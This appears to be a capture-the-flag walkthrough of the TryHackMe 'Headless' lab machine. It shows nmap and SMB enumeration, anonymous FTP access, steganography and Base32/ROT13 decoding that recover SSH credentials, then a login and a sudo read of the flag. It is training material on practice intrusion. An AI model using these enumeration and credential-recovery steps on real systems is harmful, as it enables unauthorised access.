 # Headless Hacking Machine Rough Walkthrough

Author : Kartik Bhushan
Created on : 18-12-2021 

This repository  contains the files and the notes for the the tryhackme Room - [Headless](https://tryhackme.com/room/headless)

## Machine IP - 10.10.110.189

## Ennumeration - Using Nmap 
```
Nmap command in use - nmap -sS -A -T4 -p- 10.10.110.189 -oN headless_nmap.txt  
Nmap scan report for 10.10.110.189
Host is up (0.14s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.17.35.42
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 2048000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 ftp      ftp          4096 Dec 12 00:41 11:11pm
| drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:24 cisco
| drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:25 juniper
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 12 01:11 n33l3sh
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
5522/tcp open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)


This is just the main Snippet of the Scan the full detailed scan file is named headless_nmap.txt
```

Additional nmap to enumerate deeper and find more 
```
sudo nmap -p 445 --script smb-enum-shares 10.10.110.189

Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-18 12:34 EST
Nmap scan report for 10.10.110.189
Host is up (0.15s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.110.189\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Centos server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.110.189\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 16.83 seconds

Finding - Anon Login is allowed 
```

## Web Enumeration - Enumerating the Apache webpage on PORT 80
```
Command - 
sudo gobuster dir -u http://10.10.110.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

Did not find anyting intresting in this case
```

The Box time ended so I had to restart Hence the New IP address - 10.10.231.191

## Anon login into the FTP server 
```
ftp 10.10.231.191
Connected to 10.10.231.191.
220 Welcome to blah FTP service.
Name (10.10.231.191:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Dec 12 00:41 11:11pm
drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:24 cisco
drwxr-xr-x    2 ftp      ftp          4096 Dec 11 12:25 juniper
drwxr-xr-x    2 ftp      ftp          4096 Dec 12 01:11 n33l3sh
226 Directory send OK.

Going through all the directories - Findings
11:11pm - goodiya.txt.gpg
		- happiness.jpeg

Hidden .readme.md file "ls -la" revealed it out 
n33l3sh - .readme.md

```

## Hidden Readme File - Intresting Content -
```
                                             // h3atwav3s//
???:I just wonder what you're dreaming of
When you sleep and smile so comfortable
I just wish that i could give you that
That look that's perfectly un-sad.

goodiya: wait.. i think I knew this song!, what you want to describe...

???:I have a some hidden message in this.. for you, 

```

### Findings - 
- Song name - Glass Animals by Heat Waves

### Happiness.jpeg
```
Tried online steagnography tool - https://futureboy.us/stegano/decinput.html

Passphrase tried - glassanimals
		 - heatwaves
		 - h3atwav3s

Passphrase Worked - h3atwav3s
Extrated Text - MEZTG6JTMZ2TU5TZMJUXE3DCNA======

Intially looked Base64 so check it on cyberchef - Error - Data is not a valid byteArray: [48,70,83,27,162,83,49...

Finally landed upon a function called "Magic" - "The Magic operation attempts to detect various properties of the input data and suggests which operations could help to make more sense of it."

Found the Base32 decoding - From_Base32('A-Z2-7=',false)
Decoded String - a33y3fu:vybirlbh
```

### Further Decoding the Base32 String - 

The Base32 string looked like a rot algorithm(Rotation cipher) because I had come across a directory called : "n33l3sh" - "a33y3fu"

Rot13 Decoding - n33l3sh:iloveyou .

This looked like a user login with password :) les gooo.


### Getting the flag - 

Looking at the previous nmap scan there was a port running 
- OpenSSH on Port : 5522

Trying to Login in via SSH
```
ssh n33l3sh@10.10.231.191 -p 5522          

The authenticity of host '[10.10.231.191]:5522 ([10.10.231.191]:5522)' can't be established.
ED25519 key fingerprint is SHA256:zTCmi/I/i2JiR6esjibnIgM3tHHB76gAeDEZ5tCMYAw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.231.191]:5522' (ED25519) to the list of known hosts.
The Quieter you are, the More you hear!!
n33l3sh@10.10.231.191's password: 
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.13.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com/
The Quieter you are, the More  you can hear
Last login: Sun Dec 12 02:46:03 2021
n33l3sh@Centos:~$ ls

```
Lets Go we are in time to get that Flag once and for all 

### Flag Hunt - 

```
n33l3sh@Centos:~$ ls -la
total 36
drwxr-xr-x 4 n33l3sh n33l3sh 4096 Dec 12 02:56 .
drwxr-xr-x 4 root    root    4096 Dec 11 23:57 ..
lrwxrwxrwx 1 n33l3sh n33l3sh    9 Dec 12 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 n33l3sh n33l3sh  220 Dec  8 05:07 .bash_logout
-rw-r--r-- 1 n33l3sh n33l3sh 3637 Dec  8 05:07 .bashrc
drwx------ 2 n33l3sh n33l3sh 4096 Dec  8 06:49 .cache
-rw------- 1 root    root      46 Dec 11 23:56 .flag.txt
drwx------ 2 n33l3sh n33l3sh 4096 Dec 12 00:06 .gnupg
-rwxrwxrwx 1 root    root      64 Dec 12 02:51 .home.sh
-rw-r--r-- 1 n33l3sh n33l3sh  675 Dec  8 05:07 .profile

```
I finally see the Flag file - '.flag.txt'

```
n33l3sh@Centos:~$ ls -la
total 36
drwxr-xr-x 4 n33l3sh n33l3sh 4096 Dec 12 02:56 .
drwxr-xr-x 4 root    root    4096 Dec 11 23:57 ..
lrwxrwxrwx 1 n33l3sh n33l3sh    9 Dec 12 02:56 .bash_history -> /dev/null
-rw-r--r-- 1 n33l3sh n33l3sh  220 Dec  8 05:07 .bash_logout
-rw-r--r-- 1 n33l3sh n33l3sh 3637 Dec  8 05:07 .bashrc
drwx------ 2 n33l3sh n33l3sh 4096 Dec  8 06:49 .cache
-rw------- 1 root    root      46 Dec 11 23:56 .flag.txt
drwx------ 2 n33l3sh n33l3sh 4096 Dec 12 00:06 .gnupg
-rwxrwxrwx 1 root    root      64 Dec 12 02:51 .home.sh
-rw-r--r-- 1 n33l3sh n33l3sh  675 Dec  8 05:07 .profile
n33l3sh@Centos:~$ sudo whoami
sudo: unable to resolve host Centos
root
n33l3sh@Centos:~$ sudo cat .flag.txt
sudo: unable to resolve host Centos
flag{There is the flag here}
n33l3sh@Centos:~$ LETS GO

```
